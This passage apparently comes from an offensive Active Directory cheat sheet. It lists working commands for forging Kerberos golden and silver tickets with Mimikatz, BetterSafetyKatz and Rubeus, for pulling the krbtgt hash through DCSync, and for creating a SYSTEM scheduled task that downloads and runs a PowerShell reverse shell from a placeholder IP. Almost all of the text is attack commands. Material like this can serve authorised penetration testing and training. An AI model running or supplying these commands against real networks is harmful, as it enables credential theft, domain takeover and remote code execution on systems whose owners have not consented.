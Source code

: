 ```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /krbtgt:<HASH> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

#### Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

#### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <COMPUTERNAME>
```

## Silver ticket
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets
- By default, computer passwords change every 30 days

#### Make silver ticket for CIFS service
- Use the hash of the local computer
- Other services are HOST, RPCSS, WSMAN
```
.\Rubeus.exe silver /service:<CIFS>/<FQDN> /aes256:<AES OF SYSTEM> /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN SID> /nowrap
```

#### Check access 
```
ls \\<SERVERNAME>\c$\
```

#### Make silver ticket for Host service
```
.\Rubeus.exe silver /service:<HOST>/<FQDN> /aes256:<AES> /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN SID> /ptt
```

#### Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:HOST /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:RPCSS /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```
